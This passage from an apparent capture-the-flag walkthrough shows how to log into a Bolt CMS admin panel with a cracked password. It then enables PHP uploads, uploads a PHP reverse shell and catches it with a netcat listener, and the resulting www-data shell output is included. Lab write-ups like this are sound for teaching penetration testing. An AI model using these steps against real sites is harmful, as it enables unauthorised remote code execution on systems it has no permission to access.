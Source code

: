 ## Bolt CMS

We go to the [bolt](https://bolt.cm/) login interface.

![Bolt login interface](/media/2020.xx/registry_3.png)

We connect as admin using the cracked password (`strawberry`).
There is a menu to upload some files. But the PHP files are not authorized.

![Bolt dashboard](/media/2020.xx/registry_4.png)

![Upload files interface](/media/2020.xx/registry_8.png)

As we are admin we can change this configuration in the "configuration/main
configuration" menu.

![Configuration menu](/media/2020.xx/registry_5.png)

We just add the PHP files in the authorized extension and save the
configuration.

![Configuration menu, adding PHP](/media/2020.xx/registry_7.png)

We can then upload our PHP reverse shell (from
`/usr/share/webshells/php/php-reverse-shell.php`). Pointing to our local
`netcat` running as bolt.

    :::PHP
    <?php
    <SNIP>
    set_time_limit (0);
    $VERSION = "1.0";
    $ip = '127.0.0.1';  // CHANGE THIS
    $port = 4343;       // CHANGE THIS
    $chunk_size = 1400;
    <SNIP>

![Reverse shell uploaded](/media/2020.xx/registry_9.png)

    :::text
    bolt@bolt:~$ nc -l -p 4343
    Linux bolt 4.15.0-65-generic #74-Ubuntu SMP Tue Sep 17 17:06:04 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
    14:06:37 up  2:50,  2 users,  load average: 0.14, 0.08, 0.02
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    bolt     pts/2    10.10.15.63      11:35    2:21   0.01s  0.00s nc -l -p 4343
    bolt     pts/3    10.10.15.1       13:31   53.00s  0.03s  0.03s -bash
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

**Note: all the above operation must be done "quickly" as the bolt's
configuration and the uploaded files are reset every few minutes.** Once you get
the reverse shell the reset won't impact you anymore.
